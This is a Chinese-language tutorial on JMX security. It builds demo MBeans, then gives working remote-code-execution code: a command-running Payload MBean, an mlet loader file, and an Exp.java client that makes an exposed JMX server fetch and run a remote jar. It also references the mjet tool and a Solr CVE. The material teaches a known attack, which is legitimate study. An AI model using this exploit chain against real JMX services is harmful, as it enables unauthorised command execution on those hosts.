





### 前言
这一章我们来说说JMX的安全问题把，内容相对来说比较简单，当然，我们还是回给出几个相关的案例

### JMX简介

JMX（Java Management Extensions，即Java管理扩展）是一个为应用程序、设备、系统等植入管理功能的框架。狭隘的理解，我们**可以通过JMX管理、监视我们的java程序**。但是不是所有java程序都能被管理，只有通过特定实现的java才能够被管理，这种特定实现机制就是Mbean。

如上所属，利用JMX我们可以控制服务端的特定java程序，具体能够控制哪些java程序，又是如何控制的呢?我们还是用一些小demo来说明。能够被JMX控制的一种java程序被叫做MBean。接下来我们实现一个MBean

### MBean 编写与控制

每一个MBean都需要实现一个接口，而且这个接口的命名是有讲究的，必须以MBean结尾，例如我将编写一个GirlFriendMBean接口：

```java
import javax.management.DynamicMBean;

public interface GirlFriendMBean {
    String name = "";
    public void setName(String name);
    public String getName();
    public void sayHello();
}

```

然后我们需要实现这个MBean，同样的，这个实现的命名也是有讲究的，那就是去掉对应接口的的MBean后缀：

```java
import javax.management.DynamicMBean;

public class GirlFriend implements GirlFriendMBean{
    String name;

    public GirlFriend(String name) {
        this.name = name;
    }

    public GirlFriend(){
        this.name = "Angel";
    }
    @Override
    public void setName(String name) {
        this.name = name;
    }

    @Override
    public String getName() {
        return this.name;
    }

    @Override
    public void sayHello() {
        System.out.println("Hello sweet, I am yours");
    }
}

```

现在实现了MBean,要想他们能够被远程的客户端控制访问，还需要将其绑定到MBeanServer上，具体实现代码如下：

```java
import javax.management.*;
import javax.management.remote.JMXConnectorServer;
import javax.management.remote.JMXConnectorServerFactory;
import javax.management.remote.JMXServiceURL;
import java.io.IOException;
import java.lang.management.ManagementFactory;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws MalformedObjectNameException, NotCompliantMBeanException, InstanceAlreadyExistsException, MBeanRegistrationException, IOException {
        MBeanServer mBeanServer = ManagementFactory.getPlatformMBeanServer();
        System.out.println("Register bean...");
        // 实例化一个MBean
        GirlFriendMBean girlFriend = new GirlFriend();
        ObjectName objectName = new ObjectName("JMXGirl:name=girlFriend");
        // 绑定到MBeanServer
        mBeanServer.registerMBean(girlFriend, objectName);
        // 创建一个rmi registry
        Registry registry = LocateRegistry.createRegistry(1099);
        // 构造JMXServiceURL
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:1099/jmxrmi");
        // 构造JMXConnectorServer
        JMXConnectorServer jmxConnectorServer = JMXConnectorServerFactory.newJMXConnectorServer(jmxServiceURL, null, mBeanServer);
        jmxConnectorServer.start();
        System.out.println("JMXConnectorServer is ready...");
    }
}

```

运行Server：



然后我们可以用jdk中自带的jconsole工具访问jmx server，在jdk的bin目录下，运行jconsole,天上地址localhost:1099就可以直接访问到了，可以看到我们实现的JMXGril



我们可以使用jconsole调用JMXGirl的方法，也可以设置其属性，我调用它的sayHello方法，效果如下：



### 远程MBean注册

上面的的demo展示的是MBean与JMX Server在同一主机上，jmx还提供了一种机制，可以将其他主机上的MBean绑定到别的MBean Server上，着需要用到另外一个文件mlet。我们一起来看一下实现方法把：

注： 以下代码引用自  https://www.anquanke.com/post/id/194126

```java
public interface PayloadMBean {

    public String runCmd(String cmd) throws IOException, InterruptedException;

}
public class Payload implements PayloadMBean {

    @Override

    public String runCmd(String cmd) throws IOException, InterruptedException {


        Runtime runtime = Runtime.getRuntime();

        Process process = runtime.exec(cmd);

        BufferedReader stdInput = new BufferedReader(new InputStreamReader(process.getInputStream()));

        BufferedReader stdError = new BufferedReader(new InputStreamReader(process.getErrorStream()));


        String stdout_data = "";

        String strtmp;

        while ((strtmp = stdInput.readLine()) != null) {

            stdout_data += strtmp + "\n";

        }

        while ((strtmp = stdError.readLine()) != null) {

            stdout_data += strtmp + "\n";

        }

        process.waitFor();

        return stdout_data;

    }

}
```

我们将上述代码打包成jar包，在idea中打jar包参考：https://blog.csdn.net/nopotential/article/details/79018471

然后我们需要编写一个名为mlet的文件：

```
<HTML><mlet code=Payload archive=JMX_Demo2.jar name=MLetCompromise1:name=Payload,id=12></mlet></HTML>
```

把mlet文件与刚刚创建的jar包放在同一Web目录下，我们这里可以直接用python2来简单搭建一个http server,运行如下命令就行：
`python -m SimpleHTTPServer`,具体的百度一下吧


然后我们有了MBean，还需要一个MBeanServer吧，这次的MBean Server的实现方式与之前的差别不大，只是绑定的MBean是远程的而已，具体看下代码：

```java
import javax.management.MBeanServer;
import javax.management.ObjectName;
import javax.management.loading.MLet;
import javax.management.remote.JMXConnectorServer;
import javax.management.remote.JMXConnectorServerFactory;
import javax.management.remote.JMXServiceURL;
import java.lang.management.ManagementFactory;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RemoteMbean {


    public static void main(String[] args){

        try{


            MBeanServer mBeanServer = ManagementFactory.getPlatformMBeanServer();

            //---------------------------------------------

            //remote mbean

            System.out.println("Register MLet bean...");

            MLet mLet = new MLet();

            ObjectName objectNameMLet = new ObjectName("JMXMLet:type=MLet");

            mBeanServer.registerMBean(mLet, objectNameMLet);

            //mLet.getMBeansFromURL("http://192.168.1.110:8080/mlet");

            //-----------------------------------------------------------------

            //mBeanServer.invoke(evilObject.getObjectName(), "getMBeansFromURL", new Object[] {"http://192.168.1.110:8080/mlet"}, new String[] {String.class.getName()});


            //这句话非常重要，不能缺少！注册一个端口，绑定url后，客户端就可以使用rmi通过url方式来连接JMXConnectorServer

            Registry registry = LocateRegistry.createRegistry(1099);

            //构造JMXServiceURL

            JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:1099/jmxrmi");

            //创建JMXConnectorServer

            JMXConnectorServer jmxConnectorServer = JMXConnectorServerFactory.newJMXConnectorServer(jmxServiceURL, null, mBeanServer);

            //启动

            jmxConnectorServer.start();

            System.out.println("JMXConnectorServer is running");


        }catch (Exception e){

            e.printStackTrace();

        }

    }

}
```

可以看到注释掉中有一个方法getMBeansFromURL，这个方法就是绑定远程类的关键所在，我们可以把mlet的地址作为其参数，然后当调用这个方法的时候，就会远程加载mlet文件中指定的jar文件。这个方法不需要在代码里直接调用，我们一会可以在jconsole中调用。现在运行这个Server,然后依旧用jconsole连接Server:

调用MLet的getMBeansFromURL,参数就是mlet文件的地址



然后你就会发现窗口里多了一个类，这个类就是远程的类了，我们可以执行他的runCmd方法弹个计算器：



### 控制jmx server端远程加载MBean

上面的demo是在jmx server本地实现的加载远程MBean，jmx危险之处就在于这一过程我们可以在客户端控制。也就是只要某个主机开启了jmx server端口，我们就可以通过自己编写代码或者使用现成的工具是server端加载远程的恶意类。

自己编写代码，代码同样引用别人的：

```java
import javax.management.InstanceAlreadyExistsException;
import javax.management.MBeanServerConnection;
import javax.management.ObjectInstance;
import javax.management.ObjectName;
import javax.management.openmbean.SimpleType;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;
import java.net.InetAddress;
import java.util.HashSet;
import java.util.Iterator;


public class Exp {
    public static void main(String[] args){
        connectAndCmd("localhost", "1099", "calc.exe");
    }

    static void connectAndCmd(String serverName, String port, String command){

        try{

            JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://" + serverName + ":" + port + "/jmxrmi");

//            System.out.println("URL: " + jmxServiceURL + ", connecting");

            JMXConnector jmxConnector = JMXConnectorFactory.connect(jmxServiceURL, null);

//            System.out.println("Connected： " + jmxConnector.getConnectionId());

            MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();

            ObjectInstance evil_bean = null;

//            try{
//
//                evil_bean = mBeanServerConnection.getObjectInstance(new ObjectName(OBJECTNAME));
//
//            }catch (Exception e){
//
//                evil_bean = null;
//
//            }

            if(evil_bean == null){

                System.out.println("Trying to create bean...");

                ObjectInstance evilObject = null;

                try{

                    evilObject = mBeanServerConnection.createMBean("javax.management.loading.MLet", null);

                }catch (InstanceAlreadyExistsException e){

                    evilObject = mBeanServerConnection.getObjectInstance(new ObjectName("DefaultDomain:type=MLet"));

                }

                System.out.println("Load " + evilObject.getClassName());

                //调用getMBeansFromURL从远程服务器获取 MBean

                //加载包含 MLET 标记的文本文件，这些标记定义了要添加到 MBean 服务器的 MBean。

                //MLET 文件中指定的 MBean 将被实例化并在 MBean 服务器中注册。

                Object res = mBeanServerConnection.invoke(evilObject.getObjectName(), "getMBeansFromURL",

                        new Object[] {String.format("http://127.0.0.1:8000/mlet", InetAddress.getLocalHost().getHostAddress()) },

                        new String[] {String.class.getName()}

                );

                HashSet hashSet = (HashSet)res;

                Iterator iterator = hashSet.iterator();

                Object nextObject = iterator.next();

                if(nextObject instanceof Exception){

                    throw ((Exception)nextObject);

                }

                evil_bean = ((ObjectInstance)nextObject);

            }

            //调用恶意 MBean 中用于执行命令的函数

            System.out.println("Loaded class: " + evil_bean.getClassName() + "--- object: " + evil_bean.getObjectName());

            System.out.println("Calling runCommand with: " + command);

            Object result = mBeanServerConnection.invoke(evil_bean.getObjectName(), "runCmd", new Object[]{command}, new String[]{String.class.getName()});

            System.out.println("Result: " + result);

        }catch (Exception e){

            e.printStackTrace();

        }

    }

}

```

当然，用现成的工具他不香吗?个人觉得这个jython版的mjet挺好用的： https://github.com/mogwailabs/mjet

### 案例

这是最近（19年）爆出的一个apache solr的jmx配置错误导致的漏洞（其实就是默认开启了jmx端口）

这篇文章我放在另外一个项目里了，只是简单的复现：

https://github.com/Maskhe/vuls/tree/master/apache_solr/cve-2019-12409

### 其他

jmx的安全问题不复杂，主要就是对外开放了jmx端口,所以，就这么简单带过吧,see you~

